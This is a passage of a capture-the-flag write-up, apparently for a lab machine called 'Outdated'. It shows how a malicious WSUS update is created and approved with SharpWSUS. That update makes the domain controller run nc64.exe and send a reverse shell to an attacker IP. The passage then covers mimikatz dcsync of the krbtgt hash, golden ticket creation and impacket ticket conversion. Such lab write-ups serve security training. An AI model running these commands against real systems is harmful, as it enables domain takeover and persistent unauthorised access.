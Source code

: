 -   <https://labs.nettitude.com/blog/introducing-sharpwsus/>
-   If you remember correctly `sflowers` had a `PsExec64.exe` binary on her desktop so this gives us a valid attack path.


##### Creating a Malicious Update with `SharpWSUS`: {#creating-a-malicious-update-with-sharpwsus}

-   **I create my** `SharpWSUS` **payload to trigger an** `nc64.exe` **binary I have uploaded**
    -   `.\SharpWSUS.exe create /payload:"C:\Users\sflowers\Desktop\PsExec64.exe" /args:"-accepteula -s -d C:\Users\sflowers\Documents\nc64.exe -e cmd.exe 10.10.14.43 443" /title:"EmergencyUpdate"`
    -   {{< figure src="/ox-hugo/2024-10-12-082517_.png" >}}
    -   +Note+: You can see at the bottom of the output it tells us the next command we need to run in order to push this malicious update.


##### Approving our Malicious Update with `SharpWSUS`: {#approving-our-malicious-update-with-sharpwsus}

-   **Approve the update**:
    -   `.\SharpWSUS.exe approve /updateid:bdf7d92c-2b96-42c3-b615-fc207c9d49af /computername:dc.outdated.htb /groupname:"EmergencyUpdate"`
    -   {{< figure src="/ox-hugo/2024-10-12-082756_.png" >}}
    -   +Note+:
        -   Be patient it can take a minute or longer in real life depending on update schedules etc.
            -   In real life this could take upto a week etc if updates are only pushed weekly and under certain circumstances.
        -   `/groupname:` = the `/title:` we set in the previous step e.g. `"EmergencyUpdate"`
        -   Remember to modify the `/computername:` to be the FQDN of the target you are attacking.

-   **Shell Caught**:
    -   {{< figure src="/ox-hugo/2024-10-12-082736_.png" >}}


## 4. Persistence: {#4-dot-persistence}


### Creating a golden ticket with `mimikatz.exe`: {#creating-a-golden-ticket-with-mimikatz-dot-exe}

-   **I upload mimikatz via the existin evil-winrm session with** `sflowers`:
    -   I perform a dcsync attack and dump the krbtgt hash:
    -   `lsadump::dcsync /user:krbtgt /domain:outdated.htb`
    -   {{< figure src="/ox-hugo/2024-10-12-084028_.png" >}}
    -   I get the `SID`, `KRBTGT NTLM` hash which is all I need to perform my Golden Ticket Attack.

-   **I create my golden ticket**:
    -   `kerberos::golden /domain:outdated.htb /user:Administrator /sid:S-1-5-21-4089647348-67660539-4016542185 /rc4:<redacted>`
    -   {{< figure src="/ox-hugo/2024-10-12-084203_.png" >}}

-   **I transfer the ticket via** `evil-winrm`:

-   **Convert with** `impacket-ticketconverter`:
    -   `impacket-ticketConverter ticket.kirbi admin.ccache`
    -   {{< figure src="/ox-hugo/2024-10-12-084327_.png" >}}
